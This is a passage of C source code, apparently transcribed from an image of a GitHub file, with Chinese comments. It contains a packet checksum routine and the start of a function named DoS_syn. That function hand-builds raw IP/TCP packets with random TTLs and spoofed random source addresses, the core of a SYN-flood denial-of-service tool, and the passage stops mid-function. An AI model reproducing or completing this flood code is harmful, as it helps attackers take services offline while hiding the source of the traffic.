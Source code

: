 	unsigned short ret = 0;  

	/* 计算偶数字节 */
	while (left > 1)    
	{      
		sum += *word++;      
		left -= 2;    
	}  

	/* 如果为奇数,将最后一个字节单独计算
	*	剩余的一个字节为高字节构建一个short类型变量值
	*/
	if (left == 1)    
	{      
		*(unsigned char *) (&ret) = *(unsigned char *) word;      
		sum += ret;    
	}  

	/* 折叠 */
	sum = (sum >> 16) + (sum & 0xffff);  
	sum += (sum >> 16);  

	/* 取反 */
	ret = ~sum;  
	return (ret);
}


static void
	DoS_syn (void)
{ 
	
	/* 发送目的地址 */
	struct sockaddr_in to;  
	
	/* DOS结构,分为IP头部、UDP头部、UDP数据部分 */
	struct   dosseg_t 
	{      
		struct ip iph;      
		struct tcphdr tcph;      
		unsigned char data[8192];    
	}  dosseg;  

	memset(&dosseg, 0, sizeof(dosseg));
	/* IP的版本,IPv4 */
	dosseg.iph.ip_v = 4;  
	/* IP头部长度,字节数 */
	dosseg.iph.ip_hl = 5;  
	/* 服务类型 */
	dosseg.iph.ip_tos = 0;  
	/* IP报文的总长度 */
	dosseg.iph.ip_len = htons (sizeof(struct ip)+sizeof(struct tcphdr));  
	/* 标识,设置为PID */
	dosseg.iph.ip_id = htons (getpid ());  
	/* 段的便宜地址 */
	dosseg.iph.ip_off = 0; 
	/* TTL */
	dosseg.iph.ip_ttl = myrandom (128, 255);  ;  
	/* 协议类型 */
	dosseg.iph.ip_p = IPPROTO_TCP;  
	/* 校验和,先填写为0 */
	dosseg.iph.ip_sum = 0;  
	/* 发送的源地址 */
	struct in_addr ip;
	ip.s_addr = myrandom(0, 65535);;
	//ip.s_addr = sour;
	dosseg.iph.ip_src = ip;
	/* 发送目标地址 */